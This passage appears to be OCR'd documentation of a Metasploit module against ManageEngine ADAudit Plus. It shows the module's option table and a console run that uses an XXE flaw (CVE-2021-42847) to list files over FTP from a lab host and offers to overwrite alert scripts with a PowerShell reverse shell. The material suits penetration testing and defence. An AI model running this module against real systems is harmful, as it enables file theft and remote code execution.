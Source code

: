 ```
   LHOST                               no        The local IP address to use for write operations with USE_MSF_PAYLOAD, or for receiving NTLM auth requests (TRIGGER_NTLM_AUTH)
   LOAD_MODULES                        no        A list of powershell modules separated by a comma to download over the web
   LPORT             4444              no        The listening port to use when using USE_MSF_PAYLOAD
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            192.168.91.250    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             8081              yes       The target port (TCP)
   SRVHOST           192.168.91.195    yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresse
                                                 s.
   SRVPORT           8080              yes       The local port to listen on.
   SRVPORT_FTP       2121              yes       Port for FTP reverse connection
   SRVPORT_HTTP2     8888              yes       Port for additional HTTP reverse connections
   SSL               false             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                             no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI         /                 yes       The base path to ManageEngine ADAudit Plus
   URIPATH                             no        The URI to use for this exploit (default is random)
   USE_MSF_PAYLOAD   true              no        Use the cmd/windows/powershell_reverse_tcp payload for WRITE_FILE and OVERWRITE_ALERT_SCRIPT.
   VHOST                               no        HTTP server virtual host
   XXE_VECTOR        CVE-2021-42847    no        XXE vector for obtaining file contents/directory listings (CVE-2022-28219 or CVE-2021-42847)


Auxiliary action:

   Name                Description
   ----                -----------
   LIST_ALERT_SCRIPTS  Locate and list the contents of alert_scripts/ in the ADAudit Plus install directory


msf6 auxiliary(admin/http/manageengine_adaudit_plus_file_read_write) > run
[*] Running module against 192.168.91.250

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The vulnerable endpoint /api/agent/tabs/agentGPOWatcherData is available and responds with HTTP/200
[*] Getting contents for /Program Files/ManageEngine/ADAudit Plus/ via XXE and FTP
[*] Using URL: http://192.168.91.195:8080/WFcOjOdALpjc.dtd
[*] Found the ADAudit Plus installation folder at /Program Files/ManageEngine/ADAudit Plus/.
[*] XXE_VECTOR is CVE-2021-42847. Sleeping 5 seconds before proceeding to ensure the duplicate requests for /Program Files/ManageEngine/ADAudit Plus/ have been processed
[*] Checking for existing alert scripts at /Program Files/ManageEngine/ADAudit Plus/alert_scripts/
[*] Getting contents for /Program Files/ManageEngine/ADAudit Plus/alert_scripts/ via XXE and FTP
[*] Using URL: http://192.168.91.195:8080/SSZaswSACXsRnu.dtd
[+] Found 1 PowerShell script(s) in /alert_scripts/:
user_lockout.ps1
[*] You can overwrite any PowerShell script with a PSH reverse shell via OVERWRITE_ALERT_SCRIPT together with USE_MSF_PAYLOAD
[*] Auxiliary module execution completed
```
